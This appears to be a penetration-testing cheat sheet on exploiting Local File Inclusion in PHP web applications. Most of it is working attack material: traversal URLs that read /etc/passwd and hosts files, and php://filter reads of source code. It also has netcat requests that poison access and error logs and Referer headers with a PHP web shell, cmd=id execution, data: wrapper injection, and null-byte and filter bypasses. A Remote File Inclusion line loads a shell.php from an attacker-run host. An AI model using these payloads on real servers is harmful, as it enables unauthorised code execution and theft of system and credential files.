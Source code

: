 # Local File Inclusion
 > Accessing files without proper permissions, find a parameter that loads a current file and try to change it to load another file that you may want.

### Identifying 
If the URL contains a parameter named `file=` this is a good sign we should start enumerating for directory traversals


### Basic Example
**Url:**  
`http://<ip>/home?page=contact.html → This is the original url`  
**Can this work?:**  
`http://<ip>/home?page=contact.html../../../../etc/passwd`  
`http://<ip>/menu.php?file=c:\windows\system32\drivers\etc\hosts`

### Reading PHP Files
`http://<ip>/home?page=php://filter/convert.base64-encode/resource=<page>`  
You might want to read SSH files, log files, backup files, server config, bash history

The `php.ini` file on the Windows 10 lab machine can be found at `C:\xampp\php\php.ini.` Before making any changes to this file, consider making a backup

### Inserting PHP Code into the log file

> Try Burp, try telnet

```
nc 192.168.1.102 80
GET /<?php echo shell_exec($_GET['cmd']);?>  HTTP/1.1
Host: 192.168.1.102
Connection: close
```

Can also add it to the error log by making a req to a page that does not exist
```
nc 192.168.1.102 80
GET /AAAAAA<?php echo shell_exec($_GET['cmd']);?>  HTTP/1.1
Host: 192.168.1.102
Connection: close
```

Or in the refferer parameter
```
GET / HTTP/1.1
Referer: <? passthru($_GET['cmd']) ?>
Host: 192.168.1.159
Connection: close
```

**Execute it in the browser**
`http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id`  

Or for windows:   
`http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`


### PHP Wrappers
Inject PHP code via LFI vulnerabilities

**Using data wrapper:**  
`http://10.11.0.22/menu.php?file=data:text/plain,hello world`
`http://<ip>/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`


### File extensions bypassing
**Example Code:**  
```
$file = $_GET['page']; 
require($file . ".php");
```

**Potential Solution:**
`http://<ip>/home?page=contact.html../../../../etc/passwd%00`
Null Byte Only works for php version < 5.3  


Can add a question Mark at the end so everything gets interpreted as a parameter:
`http://<ip>/home?page=contact.html../../../../etc/passwd?`

### Bypassing Filters
To escape the server stripping ../../../, add 2 dots and 2 slashes. Such as ….//….//….//

Try sending in a post request if php is configured in $_GET instead of $_REQUEST



### RFI
Make calls to remote destinations to retreive files, `file=http://<ip>:8000/shell.php`
